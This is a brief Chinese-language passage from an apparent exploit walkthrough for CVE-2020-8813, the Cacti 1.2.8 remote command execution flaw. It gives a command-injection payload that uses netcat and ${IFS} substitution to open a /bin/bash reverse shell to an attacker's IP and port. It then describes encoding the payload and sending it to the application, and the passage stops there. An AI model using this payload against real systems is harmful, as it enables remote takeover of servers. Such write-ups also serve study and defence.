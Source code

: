 如果要使用netcat获得外壳，则需要创建以下有效负载：

    ;``nc``${IFS}-e${IFS}``/bin/bash``${IFS}ip${IFS}port

让我们尝试一下，首先对有效负载进行编码，以查看结果：

![](resource/(CVE-2020-8813)Cactiv1.2.8远程命令执行漏洞/media/rId35.png)

然后将其发送到应用程序以获取以下信息：
